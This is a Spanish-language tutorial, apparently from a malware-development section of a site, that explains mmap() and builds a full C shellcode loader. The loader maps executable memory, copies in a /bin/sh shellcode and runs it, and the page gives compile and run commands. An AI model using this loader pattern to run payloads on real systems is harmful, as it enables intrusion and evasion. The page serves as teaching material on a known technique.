 ```yaml
---
layout: default
title: Inyeccion de shellcodes usando mmap()
parent: Desarrollo de malware
---
```


# Color Utilities
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---
Desarrollaremos un programa en C el cual inyectara una shellcode usando la syscall mmap()
{:.lead}

## mmap

mmap es una syscall y una funcion incorporada en el header ```sys/mman.h``` la cual permite asignar o mapear memoria dentro del espacio de direcciones virtuales de un proceso, mmap regresa un puntero void (void *), la estructura es:

```c
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
```

- **void *addr**: Es la direccion desde donde se va a asignar la memoria, esta direccion se la podemos asignar manualmente, o en todo caso de que le pogamos ```NULL```, le estamos diciendo al kernel que asigne la memoria, regularmente  la asigna a direcciones cercanas pero mayores a ```/proc/sys/vm/mmap_min_addr```

- **size_t length**: Es la longitud en bytes de la memoria que se va a asignar

- **int prot**: Se refiera a con que protecciones vamos a asignar la memoria, hay varias
  - PROT_EXEC: La memoria es ejecutable
  - PROT_READ: La memoria tiene permisos de lectura
  - PROT_WRIT: La memoria tiene permisos de escritura

- **int flags**: Determina si las actualizaciones de la memoria, son visibles para otras asignaciones de memoria dentro de la misma region de la memoria, existe muchas flags, asi que puedes leer cada una de ellas [aqui](https://man7.org/linux/man-pages/man2/mmap.2.html).

- **int fd**: Es el descriptor de archivos el cual sera asginado

- **off_t offset**: Es el desplazamiento desde donde se va a asignar la memoria

Una vez sabiendo eso ya podemos comenzar a tirar codigo

## Desarrollo del programa

Primero debemos de empezar a declarar nuestra shellcode como una cadena de caracteres de esta manera:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05";
```
La shellcode ejecutara un /bin/sh

Dentro de una funcion, empezare a declarar todo el codigo de la inyeccion, primero debemos sacar el tamaño en bytes de la shellcode, ya que es uno de los argumentos que recibe **mmap**

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;
}
```
Observa que se le esta agregando un ```- 1```, esto es para quitarle el byte nulo.

Despues haremos el llamado a ```mmap```:

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
}
```

La direccion donde se va a asignar la memoria es ```NULL``` para que el kernel la elija, el tamaño de la memoria a asignar es el tamaño de la shellcode, en las flag le decimos que la memoria se asigne con permisos de lectura, escritura, y ejecucion, con el ```-1``` le estamos diciendo al descriptor de archivos que no se requiere un archivo ya existente y que solo asigne memoria, y te podras dar cuenta de algo, estamos usando la flag ```MAP_ANONYMOUS + MAP_PRIVATE```, con esas flags le estamos indicando que la asignacion sera simplemente un bloque de memoria en ceros (por eso mismo el offset es 0), la cual estara lista de usar, ademas de ser privada, es decir, estara excluida de otras asignaciones de memoria dentro de la misma region de memoria

Aqui dibuje un diagrama de la asgnacion de memoria con mmap tomando en cuenta el ejemplo

![](/assets/img/mmap_injection/mmap.jpeg)

Lo que se ve a la izquierda es la memoria virtual de un proceso (sin entrar tanto en detalle), te podras dar cuenta que la memoria de la shellcode se asigno dentro de una seccion que se llama ```Memory Mapping```, en esta seccion se asigna memoria para las librerias compartidas y dinamicas, ademas de las asignaciones de ```mmap```, pero ojo, para que una asignacion de ```mmap``` recida en esta seccion, debe de ir con la flag ```MAP_ANONYMOUS```.

Resumidamente el diagrama seria algo asi:

- Usamos ```sizeof()``` para obtener el tamaño de la shellcode y lo guardamos en ```tam_shellcode```
- Asignamos memoria con ```mmap``` donde el tamaño es lo que tiene ```tam_shellcode``` (22 bytes)
- Usamos ```MAP_ANONYMOUS``` para indicarle que la asignacion se haga dentro de la seccion ```Memory Mapping```,

una vez que asignamos memoria para la shellcode, debemos de copiar la shellcode en esa memoria, eso lo hacemos con ```memcpy```, memcpy se usa para copiar cierta cantidad de bytes desde un origen a un destino.

```c
memcpy(shellcode_mem, shellcode, tam_shellcode);
```

En nuestro ejemplo le estamos diciendo que copie 22 bytes (tam_shellcode) del origen (shellcode), hacia la memoria que asignamos (shellcode_mem), y con esta operacion, nuestra shellcode ya estara escrita en la memoria que asigamos con mmap.

Ahora debemos de invocar a la shellcode, para eso realizamos esto:

```c
void (*shellcode_ptr)() = (void (*)())shellcode_mem;
shellcode_ptr();
```

Primero definimos ```shellcode_ptr``` como un puntero a una funcion, con el fin de asignar a ```shellcode_ptr``` la direccion de memora que contiene ```shellcode_mem``` ya que cabe recordar que ```shellcode_mem``` contiene la direccion de memoria desde donde se asigno la shellcode, que es un tipo void *

Despues con ```void (*)()``` le estamos diciendo que defina un puntero a una funcion que no recibe argumentos ni tampoco retorne nada, esto con el fin de que ```shellcode_mem``` sea interpretado como un puntero hacia esa funcion, entonces a travez de ```shellcode_ptr``` podemos mandar a llamar a ```shellcode_mem```.

Asi que cuando se haga un llamado a ```shellcode_ptr();```, ejecutara lo que esta almacenado en ```shellcode_mem```, lo cual es la shellcode:D

Despues solo queda a mandar a llamar a la funcion ```ejecutar_shellcode()``` desde el main:

```c
int main() {
    ejecutar_shellcode();
    return 0;
}
```

Y el codigo completo queda asi:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"; //bin/sh

void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );

    memcpy(shellcode_mem, shellcode, tam_shellcode);

    printf("Tamaño de la shellcode: %zu bytes\n", tam_shellcode);
    printf("Shellcode asignada desde la direccion: %p\n", shellcode_mem);

        void (*shellcode_ptr)() = (void (*)())shellcode_mem;

        shellcode_ptr();
}

int main() {
    ejecutar_shellcode();
    return 0;
}
```

Solo queda compilar y ejectuar

```
gcc -o inyeccion_mmap inyeccion_mmap.c
./inyeccion_mmap
```

Eso ha sido todo, gracias por leer ❤